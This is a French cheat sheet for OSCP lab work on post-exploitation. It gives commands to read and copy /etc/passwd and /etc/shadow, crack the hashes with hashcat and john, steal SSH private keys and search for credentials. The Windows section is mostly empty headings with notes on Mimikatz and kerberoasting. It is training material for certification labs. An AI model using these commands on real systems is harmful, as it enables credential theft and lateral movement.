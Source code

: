```yaml
---
title: "Post-Exploitation - OSCP - Que faire une fois root/admin ?"
date: 2023-05-29T04:58:35-04:00
draft: false
---
```


Cette cheatsheet est là pour vous montrer le chemin que je fais pour cette étape. Elle n'est pas exhaustive et peut contenir des coquilles, n'hésitez pas à me les remonter sur Discord s'il manque une ou des commandes ou s'il y a une ou plusieurs erreurs. Cette cheatsheet a uniquement pour but l'OSCP, et rien d'autres, donc je n'irai pas dans les détails des artefacts que l'on pourrait trouver sur une machine.

- [0. Introduction](#introduction)
- [1. Linux](#linux)
	- [1.1 - Dump /etc/passwd](#dump-etcpasswd)
	- [1.2 - Dump /etc/shadow](#dump-etcshadow)
	- [1.3 - John / Hashcat](#john--hashcat)
	- [1.4 - Clés SSH](#clés-ssh)
	- [1.5 - Chercher des credentials dans des fichiers](#chercher-des-credentials)
	- [1.6 - Fichiers / dossiers utiles](#fichiers--dossiers-utiles)
	- [1.7 - Routes](#routes) 
- [2. Windows](#windows)
	- [2.1 - Impacket-secretsdump](#impacket-secretsdump)
	- [2.2 - Mimikatz](#mimikatz)
	- [2.3 - Fichiers / dossiers utiles](#fichiers--dossiers-utiles-1)
	- [2.4 - Chercher des credentials dans des fichiers](#chercher-des-credentials-1)
	- [2.5 - Routes](#routes-1)
## Introduction 
Dans les labs avec plusieurs machines, type les prolabs HTBs, on est souvent amené à faire de la post-exploitation à chaque compromission de machine pour récolter des informations et potentiellement les ré-utiliser. Dans ce genre d'environnement, ca peut nous permettre de potentiellement obtenir des accès à de nouvelles machines.

## Linux 
### Dump /etc/passwd
```shell
cat /etc/passwd > /tmp/passwd
scp user@IP:/tmp/passwd /dump/loot/.
```
### Dump /etc/shadow
```shell
cat /etc/shadow > /tmp/shadow
scp user@IP:/tmp/shadow /dump/loot/.
```
### John / Hashcat
```shell
unshadow passwd shadow > hashs
hashcat -m 1800 -a 0 hashes /usr/share/wordlists/rockyou.txt
ou
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```
### Clés SSH
```shell
les clés SSH sont dans /home/<USER>/.ssh/id_rsa
scp user@IP:/home/<USER>/.ssh/id_rsa /dump/loot/.
```
### Chercher des credentials
Je trouvais grep plutôt lent, donc ripgrep (merci WarthogTK pour la découverte) :
https://github.com/BurntSushi/ripgrep.

Les résultats sont souvent très verbeux, ne pas hésitez de les trier à coup de grep, il faut faire petit à petit pour ne récupérer uniquement les infos dont on a besoin, ripgrep permet dans le cas ici, d'être plus rapide que grep pour le "tri large".
```
ripgrep <mot> <chemin>
=> ripgrep pass .
=> ripgrep login .
le readme du github explique plutôt bien les avantages et comment utiliser ripgrep
```
### Fichiers / dossiers utiles 
```shell
Ces fichiers peuvent contenir des credentials ou autre informations utiles :
- /home/<USER>/.bash_history
- /var/apache2/config.inc
- /var/mail/*
- /opt/. 
- /var/www/. -> un site qui tourne, check la config.
```

### Routes
```shell
Ces commandes vous permettront de découvrir potentiellement de nouveaux réseaux :
- ifconfig
- ip a
- arp -a 
```

## Windows
### Impacket-Secretsdump
### Mimikatz
si on est dans un AD, faut spray les creds, si c'est un user du domaine, check si il y a des comptes kerberoastable / asrep/spn...check les droits du compte dans l'AD ...
### Fichiers / dossiers utiles
### Chercher des credentials

### Routes
